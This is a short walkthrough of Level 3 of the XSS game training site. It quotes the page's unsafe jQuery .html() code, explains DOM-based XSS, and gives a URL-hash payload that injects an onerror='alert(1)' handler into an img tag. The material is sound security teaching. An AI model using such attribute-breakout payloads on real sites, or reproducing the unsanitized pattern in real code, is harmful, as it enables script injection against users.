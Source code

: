 # [Level 3: That sinking feeling](https://xss-game.appspot.com/level3)

### **Observations**

* When the page loads, it displays an image with a number (Image 1, 2, or 3).
* The number is taken from the **URL fragment/hash** like:

  ```
  https://xss-game.appspot.com/level3/frame#1
  ```
* The JavaScript uses this part of the URL:

  ```js
  chooseTab(unescape(self.location.hash.substr(1)) || "1");
  ```
* Inside the `chooseTab()` function, it builds HTML like this:

  ```js
  html = "Image " + num + "<br>";
  html += "<img src='/static/level3/cloud" + num + ".jpg' />";
  $('#tabContent').html(html);
  ```
* That `num` comes **directly from the URL** and is inserted into the page using `innerHTML` via jQuery’s `.html()` — which is **unsafe** if the input isn’t sanitized.

### **What is DOM-Based XSS?**

DOM-Based XSS happens **entirely in the browser**, using **JavaScript on the page** that handles user input from places like the URL (`location.hash`, `location.search`, etc.) and inserts it into the DOM **without sanitizing** — allowing scripts to run.


### **Solution**

Use this payload in the URL hash:

```
https://xss-game.appspot.com/level3/frame#' onerror="alert(1)"
```

* Then The image tag becomes:

  ```html
  <img src='/static/level3/cloud' onerror="alert(1)".jpg' />
  ```
* The image fails to load (broken `src`), triggering `onerror`, which runs `alert(1)`.

**The problem is solved.**

